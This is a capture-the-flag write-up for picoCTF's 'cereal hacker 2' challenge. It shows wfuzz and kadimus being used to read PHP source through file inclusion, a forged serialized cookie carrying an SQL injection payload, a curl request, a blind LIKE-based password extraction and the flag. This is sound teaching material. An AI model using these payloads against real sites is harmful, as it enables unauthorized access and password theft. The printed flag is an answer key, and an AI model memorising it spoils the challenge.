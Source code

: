 # cereal hacker 2

## Problem

> Get the admin's password. <https://2019shell1.picoctf.com/problem/62195/> or <http://2019shell1.picoctf.com:62195>

## Solution

1. Scan for files that can be loaded using the `file` parameter in the URL (`http://2019shell1.picoctf.com:62195/index.php?file=FUZZ`):

    ```bash
    kali@kali:~$ wfuzz -w /usr/share/seclists/Discovery/Web-Content/common.txt --hs "Unable to locate" http://2019shell1.picoctf.com:62195/index.php?file=FUZZ

    Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

    ********************************************************
    * Wfuzz 2.4.5 - The Web Fuzzer                         *
    ********************************************************

    Target: http://2019shell1.picoctf.com:62195/index.php?file=FUZZ
    Total requests: 4652

    ===================================================================
    ID           Response   Lines    Word     Chars       Payload
    ===================================================================

    000000487:   200        25 L     71 W     1108 Ch     "admin"
    000000493:   200        0 L      0 W      0 Ch        "admin.php"
    000001222:   200        6 L      17 W     500 Ch      "cookie"
    000002014:   200        12 L     33 W     993 Ch      "head"
    000002151:   200        0 L      0 W      0 Ch        "index.php"
    000002468:   200        34 L     82 W     1423 Ch     "login"
    000002148:   200        215826   575537   177337523   "index"
                            6 L      7 W       Ch

    Total time: 62.45093
    Processed Requests: 4652
    Filtered Requests: 4645
    Requests/sec.: 74.49048
    ```

    The `--hs` argument hides responses that match the specifies regex. When the file is not found the text "Unable to locate" is displayed so those responses are ignored.

2. Run [P0cL4bs/kadimus](https://github.com/P0cL4bs/kadimus) with `./kadimus -u https://2019shell1.picoctf.com/problem/62195/index.php?file=FUZZ -S -f admin --parameter file` to find `require_once('cookie.php');` in `admin.php`.
3. Ouput of `/kadimus -u https://2019shell1.picoctf.com/problem/62195/index.php?file=FUZZ -S -f cookie --parameter file`:

    ```php
    <?php

    require_once('../sql_connect.php');

    // I got tired of my php sessions expiring, so I just put all my useful information in a serialized cookie
    class permissions
    {
            public $username;
            public $password;

            function __construct($u, $p){
                    $this->username = $u;
                    $this->password = $p;
            }

            function is_admin(){
                    global $sql_conn;
                    if($sql_conn->connect_errno){
                            die('Could not connect');
                    }
                    //$q = 'SELECT admin FROM pico_ch2.users WHERE username = \''.$this->username.'\' AND (password = \''.$this->password.'\');';

                    if (!($prepared = $sql_conn->prepare("SELECT admin FROM pico_ch2.users WHERE username = ? AND password = ?;"))) {
                        die("SQL error");
                    }

                    $prepared->bind_param('ss', $this->username, $this->password);

                    if (!$prepared->execute()) {
                        die("SQL error");
                    }

                    if (!($result = $prepared->get_result())) {
                        die("SQL error");
                    }

                    $r = $result->fetch_all();
                    if($result->num_rows !== 1){
                            $is_admin_val = 0;
                    }
                    else{
                            $is_admin_val = (int)$r[0][0];
                    }

                    $sql_conn->close();
                    return $is_admin_val;
            }
    }

    /* legacy login */
    class siteuser
    {
            public $username;
            public $password;

            function __construct($u, $p){
                    $this->username = $u;
                    $this->password = $p;
            }

            function is_admin(){
                    global $sql_conn;
                    if($sql_conn->connect_errno){
                            die('Could not connect');
                    }
                    $q = 'SELECT admin FROM pico_ch2.users WHERE admin = 1 AND username = \''.$this->username.'\' AND (password = \''.$this->password.'\');';

                    $result = $sql_conn->query($q);
                    if($result->num_rows != 1){
                            $is_user_val = 0;
                    }
                    else{
                            $is_user_val = 1;
                    }

                    $sql_conn->close();
                    return $is_user_val;
            }
    }


    if(isset($_COOKIE['user_info'])){
            try{
                    $perm = unserialize(base64_decode(urldecode($_COOKIE['user_info'])));
            }
            catch(Exception $except){
                    die('Deserialization error.');
            }
    }

    ?>
    ```

    This reveals why SQLi will not work anymore. The website moved to prepared statements (`if (!($prepared = $sql_conn->**prepare**("SELECT ad`...) which are much safer. However, the `siteuser` class does not have this. It is vulnerable.
4. We can use the same format from `cereal hacker 1` but with `siteuser` instead of `permissions`: `O:8:"siteuser":2:{s:8:"username";s:5:"admin";s:8:"password";s:11:"' or '1'='1";}`. Use [CyberChef](https://gchq.github.io/CyberChef/) with the recipe from before (`[{"op":"To Base64","args":["A-Za-z0-9+/="]},{"op":"URL Encode","args":[true]},{"op":"URL Encode","args":[true]}]`) to encode the cookie.
5. Run `curl http://2019shell1.picoctf.com:62195/index.php?file=admin -H "Cookie: user_info=Tzo4OiJzaXRldXNlciI6Mjp7czo4OiJ1c2VybmFtZSI7czo1OiJhZG1pbiI7czo4OiJwYXNzd29yZCI7czoxMToiJyBvciAnMSc9JzEiO30%253D"` to get admin page.
6. Run [script.py](script.py) to get the flag. This script performs a blind error-based SQL injection. It sends a request with the cookie from above, but it changes the password field using the pattern below:

    ```sql
    ' or password like BINARY 'p%
    ' or password like BINARY 'pi%
    ' or password like BINARY 'pic%
    ' or password like BINARY 'pico%
    ' or password like BINARY 'picoC%
    ' or password like BINARY 'picoCT%
    ' or password like BINARY 'picoCTF%
    ```

    The program loops through ascii numbers and characters, trying each one until a login is successful. When the login is successful, the program appends that character to the stored flag and starts the loop again. The loop runs until the login is successful by adding the "}" character ("}" is end of flag) or until the list of characters is completely looped through in one iteration. If the second case were to happen then that means no character tested as valid or the end of the password has been reached.

### Flag

`picoCTF{c9f6ad462c6bb64a53c6e7a6452a6eb7}`
